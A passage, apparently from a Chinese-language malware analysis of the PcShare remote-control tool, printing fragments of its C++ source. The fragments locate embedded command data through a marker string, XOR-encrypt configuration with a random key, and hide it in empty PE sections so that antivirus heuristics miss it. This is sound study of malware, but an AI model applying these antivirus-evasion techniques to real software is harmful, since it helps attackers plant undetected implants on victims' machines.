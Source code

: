 ```
    DWORD nFileLen = GetFileSize(hFile, NULL);
    CloseHandle(hFile);

    //修改标志
    //This
    char m_TempStr[256] = {0};
    m_TempStr[0] = 'T';
    m_TempStr[1] = 'h';
    m_TempStr[2] = 'i';
    m_TempStr[3] = 's';
    m_TempStr[4] = 0x00;

    //修改EXE数据标志
    BYTE* pData = (BYTE*) GetModuleHandle(NULL);
    BYTE* pCmd = NULL;
    for(DWORD i = 0; i < nFileLen; i++)
    {
        if(memcmp(&pData[i], m_TempStr, 4) == 0)
        {
            pCmd = (BYTE*) &pData[i + 4];
            break;
        }
    }
    return pCmd;
}

```

验证：

![enter image description here](http://drops.javaweb.org/uploads/images/25da3ee494c42080a431b43ac155d7c8981fcbd9.jpg)

3 运行成功后加密配置数据修改DLL 文件，生成一段随机作为Key。数据和Key异或加密存储，放在PE空区段里面。Pcshare多次利用空区段存放数据，用的时候在找标记“PS_VER_ULONGLONG”找大小在读取出来，避免“资源文件存文件”、“附加数据存文件”等传统捆绑打包和携带配置文件的方式，被杀毒启发式扫描检测出来。

```
//取随机数据
    srand((unsigned) time(NULL));
    for(i = 0; i < nInfoDataLen; i++)
    {
        pKeyData[i] = rand();
    }

    //加密数据
    for(i = 0; i < nInfoDataLen; i++)
    {
        pTmpData[i] = pTmpData[i] ^ pKeyData[i];
    }
    AddDataToPe(pSaveData, nInfoDataLen * 2 + nStrSize, pDllFileData, nSrcDllDataLen, m_DllFilePath);

```
